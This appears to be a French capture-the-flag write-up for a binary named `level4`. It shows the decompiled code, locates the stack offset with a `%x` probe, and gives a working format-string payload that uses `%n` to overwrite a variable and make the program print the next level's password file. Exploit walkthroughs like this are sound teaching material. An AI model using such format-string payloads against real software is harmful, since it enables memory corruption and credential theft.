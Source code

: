 ### README - Exploitation du programme `level4`

## Introduction

Nous avons un exécutable `level4` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

### Code source décompilé

Voici le code source décompilé du programme `level4` :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `p` utilise `printf` avec un argument utilisateur sans spécificateur de format, ce qui est vulnérable à une attaque par chaîne de format. La condition pour exécuter la commande `system` est que la variable `m` soit égale à `0x1025544`.

### Identification de la position de l'argument

Pour exploiter la vulnérabilité, nous devons trouver la position de notre chaîne injectée dans les arguments de `printf`.

1. **Utilisation d'une chaîne de format exploratoire pour afficher les valeurs sur la pile** :

   ```bash
   python -c 'print "AAAA" + " %x" * 20' | ./level4
   ```

2. **Analyse de la sortie** :

   ```
   AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
   ```

   Nous voyons `0x41414141` (qui représente "AAAA" en ASCII) à la 12ème position dans la sortie. Cela signifie que notre chaîne injectée est le 12ème argument de `printf`.



#### a. Exploitation par constructions du payload

```bash
(python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
```

### Conclusion

En utilisant cette approche, nous avons exploité la vulnérabilité de chaîne de format pour modifier la variable `m` et déclencher la condition qui exécute la commande système pour afficher le contenu de `/home/user/level5/.pass`.

### Code source décompilé pour explication

Voici à nouveau le code source décompilé pour une explication plus claire :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Explication

- **`fgets`** : Lit l'entrée utilisateur dans un buffer.
- **`printf`** : Affiche le buffer sans spécificateur de format, rendant le programme vulnérable aux attaques de chaîne de format.
- **Condition sur `m`** : Si `m` vaut `0x1025544`, le programme exécute `system("/bin/cat /home/user/level5/.pass")`.

En utilisant la vulnérabilité de chaîne de format, nous avons écrit `0x1025544` à l'adresse de `m` pour satisfaire cette condition et obtenir le mot de passe pour le niveau suivant.